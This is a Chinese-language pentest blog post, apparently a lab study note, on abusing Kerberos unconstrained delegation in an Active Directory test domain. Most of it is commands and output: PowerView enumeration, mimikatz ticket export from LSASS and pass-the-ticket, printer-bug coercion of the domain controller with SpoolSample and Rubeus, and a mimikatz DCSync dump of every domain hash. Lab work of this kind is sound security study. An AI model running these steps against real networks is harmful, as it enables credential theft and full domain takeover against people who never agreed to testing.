 ```yaml
---
title: 非约束性委派
published: 2024-10-01
description: "非约束性委派学习"
image: "./OddTaxi.png"
tags: ["Domain", "Windows", "Pentest"]
category: Windows
draft: false
---
```


# 非约束性委派

非约束性委派，服务账户可以获取被委派用户的TGT，并将TGT缓存到LSASS进程当中，从而使该服务账户能够模拟用户访问任意服务

# 实验环境

- 域控: WIN-HSTT0ETJU78 ( 10.0.0.133 )
- 域成员: WIN7 ( 10.0.0.138 )
- 域管理员: Administrator
- 域普通用户: hack
- 域: xie.com

在域控上配置主机WIN2012R203具有非约束性委派属性

![AddProp](./AddProp.png)

# 攻击手法

假设我们已经获取了WIN7主机权限，使用[PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)查询域内非约束性委派的主机账户，可以看到有WIN7机器

```powershell
PS C:\Users\hack\Desktop> Import-Module .\PowerView.ps1

PS C:\Users\hack\Desktop> Get-NetComputer -Unconstrained -Domain xie.com | Select-Object -ExpandProperty samaccountname
WIN-HSTT0ETJU78$
AD02$
WIN7$
```

正常情况下在WIN7访问域控是没有权限的

```powershell
PS C:\Users\hack\Desktop> dir \\WIN-HSTT0ETJU78.xie.com\c$
dir : 拒绝访问。
所在位置 行:1 字符: 1
+ dir \\WIN-HSTT0ETJU78.xie.com\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (\\WIN-HSTT0ETJU78.xie.com\c$:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : ItemExistsUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
 
dir : 找不到路径“\\WIN-HSTT0ETJU78.xie.com\c$”，因为该路径不存在。
所在位置 行:1 字符: 1
+ dir \\WIN-HSTT0ETJU78.xie.com\c$
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (\\WIN-HSTT0ETJU78.xie.com\c$:String) [Get-ChildItem], ItemNotFoundException
    + FullyQualifiedErrorId : PathNotFound,Microsoft.PowerShell.Commands.GetChildItemCommand
```

## 攻击手法

### 0x01 诱使域管理员访问机器

现在用域管理员xie\administrator登入WIN7机器，比如RDP

登入之后，重新用WIN7的管理员用户运行mimikatz

```powershell
PS C:\Users\hack\Desktop> runas /user:administrator powershell.exe
#输入密码
PS C:\users\hack\Desktop> whoami
win7\administrator
#运行猕猴桃
PS C:\users\hack\Desktop> .\mimikatz.exe

mimikatz # privilege::debug
#导出票据
mimikatz # sekurlsa::tickets /export

#可以看到会导出Administrator@krbtgt-XIE.COM票据
PS C:\users\hack\Desktop> dir
-a---         2024/9/23     23:17       1691 [0;e9d5a]-0-0-40a50000-Administrator@ldap-WIN-HSTT0ETJU78.xie.com.kirbi                                             
-a---         2024/9/23     23:17       1691 [0;e9d5a]-0-1-40a50000-Administrator@cifs-WIN-HSTT0ETJU78.xie.com.kirbi                                             
-a---         2024/9/23     23:17       1709 [0;e9d5a]-0-2-40a50000-Administrator@LDAP-WIN-HSTT0ETJU78.xie.com.kirbi                                             
-a---         2024/9/23     23:17       1517 [0;e9d5a]-2-0-60a10000-Administrator@krbtgt-XIE.COM.kirbi                                                           
-a---         2024/9/23     23:17       1517 [0;e9d5a]-2-1-40e10000-Administrator@krbtgt-XIE.COM.kirbi

#导入票据
#这个时候不用管理员用户也可以
mimikatz # kerberos::ptt [0;e9d5a]-2-0-60a10000-Administrator@krbtgt-XIE.COM.kirbi

#查看票据
mimikatz # kerberos::list
[00000000] - 0x00000012 - aes256_hmac
   Start/End/MaxRenew: 2024/9/23 23:06:21 ; 2024/9/24 9:06:07 ; 2024/9/30 23:06:07
   Server Name       : krbtgt/XIE.COM @ XIE.COM
   Client Name       : Administrator @ XIE.COM
   Flags 60a10000    : name_canonicalize ; pre_authent ; renewable ; forwarded ;
 forwardable ;

mimikatz # exit
Bye!

#可以看到成功访问域控了
C:\Users\hack\Desktop>dir \\WIN-HSTT0ETJU78.xie.com\c$
 驱动器 \\WIN-HSTT0ETJU78.xie.com\c$ 中的卷没有标签。
 卷的序列号是 F0F5-6A44

 \\WIN-HSTT0ETJU78.xie.com\c$ 的目录

2024/09/17  21:20    <DIR>          inetpub
2013/08/22  23:52    <DIR>          PerfLogs
2013/08/22  22:50    <DIR>          Program Files
2013/08/22  23:39    <DIR>          Program Files (x86)
2024/09/19  12:02    <DIR>          Users
2024/09/20  17:21    <DIR>          Windows
               0 个文件              0 字节
               6 个目录 52,107,898,880 可用字节

C:\Users\hack\Desktop>whoami
xie\hack
```

### 0x02 配合打印机漏洞攻击

这篇[ms-rprn-abuse-printerbug](https://www.thehacker.recipes/ad/movement/mitm-and-coerced-authentications/ms-rprn#ms-rprn-abuse-printerbug)文章介绍了一些相关内容

>Microsoft’s Print Spooler is a service handling the print jobs and other various tasks related to printing. An attacker controling a domain user/computer can, with a specific RPC call, trigger the spooler service of a target running it and make it authenticate to a target of the attacker's choosing.
>

大概意思是说当攻击者控制了域内的账户或者机器时，可以通过一个指定的远程调用来触发目标机器上运行的打印机服务，并且使该目标向攻击者指定的机器进行身份验证，于是我们可以通过打印机服务漏洞强制域控连接了配置非约束性委派的机器


先使用WIN7主机的管理员运行Rubeus监听来自域控WIN-HSTT0ETJU78主机的ticket

```powershell
Rubeus.exe monitor /interval:1 /filteruser:WIN-HSTT0ETJU78$
```

再用普通域用户hack触发printerbug

```powershell
c:\Users\Public\Documents>.\SpoolSample.exe WIN-HSTT0ETJU78 WIN7
[+] Converted DLL to shellcode
[+] Executing RDI
[+] Calling exported function
TargetServer: \\WIN-HSTT0ETJU78, CaptureServer: \\WIN7
RpcRemoteFindFirstPrinterChangeNotificationEx failed.Error Code 1722 - RPC ???????
```

此时Rubeus应该就能收到来自WIN-HSTT0ETJU78的ticket

![ticket](./ticket.png)

如果没有收到的话，可能原因是WIN7主机的防火墙拦截了SMB的445端口，进行如下配置即可

![fire](./fire.png)


接下来使用Rubeus导入base64 ticket到内存当中

```powershell
.\Rubeus.exe ptt /ticket:<Base64Ticket>
```

域控的机器不能用于登入，但是又DCSync权限，所以可以导出域内hash

```powershell
mimikatz.exe "lsadump::dcsync /all /csv" "exit"
```

# 参考

- <https://www.notsoshant.io/blog/attacking-kerberos-unconstrained-delegation/>
